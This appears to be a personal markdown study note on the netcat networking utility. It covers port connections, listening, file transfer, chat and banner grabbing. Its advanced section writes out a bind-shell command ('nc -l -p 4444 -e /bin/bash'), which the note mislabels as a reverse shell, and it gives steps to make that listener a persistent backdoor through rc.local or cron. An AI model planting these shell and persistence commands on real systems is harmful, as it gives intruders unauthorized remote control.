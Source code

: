 ```yaml
---
title: 
tags: 
icon: 
aliases: 
---
```

### Overview of Netcat

Netcat, often referred to as the "Swiss Army knife" of networking, is a versatile networking utility that reads and writes data across network connections using the [[Internet Protocol Suite|TCP/IP protocol]]. It can be used for a variety of purposes such as network debugging, port scanning, file transfers, and as a back-end tool in many pen testing scenarios.

### Key Features of Netcat

1. **Port Scanning**: Similar to Nmap, Netcat can be used to scan for open ports on a target machine.
2. **File Transfer**: Netcat can transfer files between machines over a network.
3. **Creating and Connecting to Sockets**: It can create a network connection between two machines, making it useful for testing and debugging network services.
4. **Listening for Connections**: Netcat can listen on a specified port for incoming connections, acting as a simple server.
5. **Port Forwarding and Proxying**: It can be used to forward ports and proxy traffic.

### Basic Usage of Netcat

#### 1. Connecting to a Port

Netcat can be used to connect to a specific port on a target machine, useful for testing network services.

```bash
nc <target_ip> <port>
```

Example:
```bash
nc 192.168.1.10 80
```

This command connects to port 80 (HTTP) on the target machine with IP address 192.168.1.10.

#### 2. Listening on a Port

Netcat can listen on a specified port for incoming connections, acting like a simple server.
```bash
nc -l <port>
```

Example:
```bash
nc -l 12345
```

This command listens on port 12345 for incoming connections.

#### 3. File Transfer

Netcat can be used to transfer files between two machines.

**Sender (Machine A):**
```bash
cat file.txt | nc <target_ip> <port>
```

Example:
```bash
cat file.txt | nc 192.168.1.10 12345
```


**Receiver (Machine B):**
```bash
nc -l <port> > file.txt
```


Example:
```bash
nc -l 12345 > file.txt
```

In this example, `Machine A` sends `file.txt` to `Machine B`, which receives it and saves it as `file.txt`.

#### 4. Chat Application

Netcat can be used to create a simple chat application.

**Machine A:**
```bash
nc -l 12345
```


**Machine B:**
```bash
nc <target_ip> 12345
```

Now, whatever you type on one machine will appear on the other, creating a simple chat interface.

#### 5. Banner Grabbing

Netcat can be used to grab service banners, which can provide information about the service running on a port.

Example:
```bash
nc 192.168.1.10 22
```


Connecting to port 22 (SSH) might give you information about the SSH service running on the target machine.

### Advanced Usage of Netcat

#### 1. Reverse Shell

Netcat can be used to create a reverse shell, which can be useful for gaining remote access to a machine.

**Victim Machine (Listening for Connection):**
```bash
nc -l -p 4444 -e /bin/bash
```

**Attacker Machine (Initiating Connection):**
```bash
nc <victim_ip> 4444
```


After running these commands, the attacker will have a shell on the victim machine.

#### 2. Persistent Backdoor

Netcat can be used to set up a persistent backdoor.

**Victim Machine (Persistent Listener):** Add the following line to `/etc/rc.local` or use a cron job:
```bash
nc -l -p 4444 -e /bin/bash &
```


Now, the victim machine will listen for incoming connections on port 4444 even after rebooting.

### Conclusion

Netcat is an incredibly powerful tool with a wide range of applications in network troubleshooting, file transfers, and penetration testing. Understanding its basic and advanced usage will significantly enhance your network analysis and pen testing capabilities.
